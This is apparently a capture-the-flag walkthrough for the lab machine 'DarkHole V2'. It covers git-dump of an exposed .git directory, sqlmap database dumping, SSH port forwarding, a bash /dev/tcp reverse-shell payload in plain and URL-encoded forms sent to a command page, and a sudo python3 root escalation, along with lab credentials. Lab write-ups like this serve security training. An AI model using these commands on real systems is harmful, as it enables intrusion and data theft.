

# DarkHole V2

### Nmap Scan

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 57:b1:f5:64:28:98:91:51:6d:70:76:6e:a5:52:43:5d (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC8frfKJoug6k4wCSqcsbT7meZVMAFhil7gpcyzdiiutx5GhiKXsiuW3S4+t1F4VmqfUDXeLEGb9KPLyEI4Lsa/OB5sV/D9zsSSdiDwY7XrjM8C4rnWL+oHeVOIhwwKAPfs8GhxRUXmaGvWrMIqWqZPm7tuEm+PEcTTuAHyMypZelGByd7MCm5vAS5Yq0uNAzyNAmepvkmONeN1OrvmVMmHduMtPurHBeBj0n8A5JPKsMu7k9FuHRGS4t5r02gFjWq7sj69QXazooEDoOQKQ8MPmO2+lAFc/aASzVLmR18GR+f9iGa6QPayK6JrSGEsnmJ2P//3Ag2UxuN+KmbSHMv3GxMUx6UGzXmPUTB/EpjFjwnP8WJoDx1Kz6dJhSa989yRm/QpwDVNF2fXtWTdlerSwK91O4c3oeYfIWGSQYibFUz0zSnTlVyYeQXrKIgVTi/LXL4CLx2RxBELLnpZpzb6bi2E1SbgN/O8Z0s9wGutN1lHlNXeAr/DtFHtbydH3mM=

80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-git: 
|   192.168.85.132:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: i changed login.php file for more secure 
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: DarkHole V2
```

---

### Website


### Hidden Directory

```bash
/.git 

## ffuf output
## not helpfull 
/style                   
/js                     
/config
```

---

### .git → looks more interesting


- There is git logs


<aside>
💡

HINT:  `commit: I added login.php file with default credentials`

</aside>

---

### Git Dump

```bash
## Download all git repo to your local machine
git-dump http://IP/.git src 
```

- After searching i fount valid credentials

```bash
git show 
```


```
email = lush@admin.com
password = 321
```


---

### SQL Injection → login form


- We can use `sqlmap` to perform sql injection attack.


- Save this request to a file
- then we can use this file to perform some SQLi via sqlmap


```bash
sqlmap -r request --dbs --batch
```

| —dbs  | use to enumerate databases. |
| --- | --- |
| —batch  | never ask for input from user. |
| -D  | use to DBMS database to enumerate. |
- Dig more into database called → darkhole_2

```bash
sqlmap -r request  -D darkhole_2 --dump-all --batch
```

- Found SSH credentials.


---

### SSH

```
username = jehad
password = fool
```


- We have three users here.
- the user losy has a `user.txt` file


---

### Privilege Escalation

- LinPEAS discoverd a PHP-based command interface running at → `localhost:9999`
- under the user losy


- We can use port-forwarding method to access this website locally.

```bash
ssh -L 9999:localhost:9999 jehad@IP
```


- Now Navigate to website → `http://localhost:9999/?cmd=`
- So we can use this to RCE


- To get a Remote Shell

```bash
## Payload 
bash -c 'bash -i >& /dev/tcp/<your_ip>/8080 0>&1'

## Encoded version
?cmd=bash -c 'bash -i >%26 %2Fdev%2Ftcp%2F192.168.85.128%2F8080 0>%261'
```


- Make sure to start netcat listening


- once we get a shell there is a ..bash_history file
- In that file we find password for losy


```
username = losy 
password = gang
```

- user losy can run python3 with root permission.

```bash
sudo -l
```



- Try GTFOBins


- payload for python3

```bash
sudo python3 -c 'import os; os.system("/bin/sh")'
```

